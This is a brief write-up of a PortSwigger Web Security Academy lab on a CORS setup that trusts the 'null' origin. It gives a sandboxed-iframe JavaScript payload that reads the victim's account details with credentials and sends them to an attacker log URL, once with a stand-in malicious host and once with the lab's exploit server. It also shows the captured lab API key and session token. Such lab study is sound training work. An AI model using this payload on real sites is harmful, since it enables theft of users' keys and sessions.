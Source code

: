 # CORS vulnerability with trusted null origin

## This website has an insecure [CORS](https://portswigger.net/web-security/cors) configuration in that it trusts the "null" origin.

## To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

## You can log in to your own account using the following credentials: `wiener:peter`

### step1

login with credentials
go to burpsuite and see history
like the lab1
account detils
add origin: null
it will response
Access-Control-Allow-Origin: null

### step2

use this script

```html
<iframe
  sandbox="allow-scripts allow-top-navigation allow-forms"
  src="data:text/html,<script> 
	var req = new XMLHttpRequest(); 
	req.onload = reqListener; 
	req.open('get','vulnerable-website.com/sensitive-victim-data',true); 
	req.withCredentials = true; 
	req.send(); 

	function reqListener() { 
	location='malicious-website.com/log?key='+this.responseText; 
	}; 
</script>"
></iframe>
```

change with la credentials

```html
<iframe
  sandbox="allow-scripts allow-top-navigation allow-forms"
  src="data:text/html,<script> 
	var req = new XMLHttpRequest(); 
	req.onload = reqListener; 
	req.open('get','https://0a0000f304ad0b4881dc70fa00fb0055.web-security-academy.net/accountDetails',true); 
	req.withCredentials = true; 
	req.send(); 

	function reqListener() { 
	location='https://exploit-0a72000b04740b5381246f72014b006f.exploit-server.net//log?key='+this.responseText; 
	}; 
</script>"
></iframe>
```

deliver to victim and go to /log

```javascript
%20%20%22username%22:%20%22administrator%22,%20%20%22email%22:%20%22%22,%20%20%22apikey%22:%20%22znykYDb92N2mZpPTZgqr3E1RmspfMdtx%22,%20%20%22sessions%22:%20[%20%20%20%20%22aaBpaigppio0v0fLpmXC67hxZodS1og4%22%20%20
```

decode

```javascript
  "username": "administrator",  "email": "",  "apikey": "znykYDb92N2mZpPTZgqr3E1RmspfMdtx",  "sessions": [    "aaBpaigppio0v0fLpmXC67hxZodS1og4"
```

sumit and lab solve
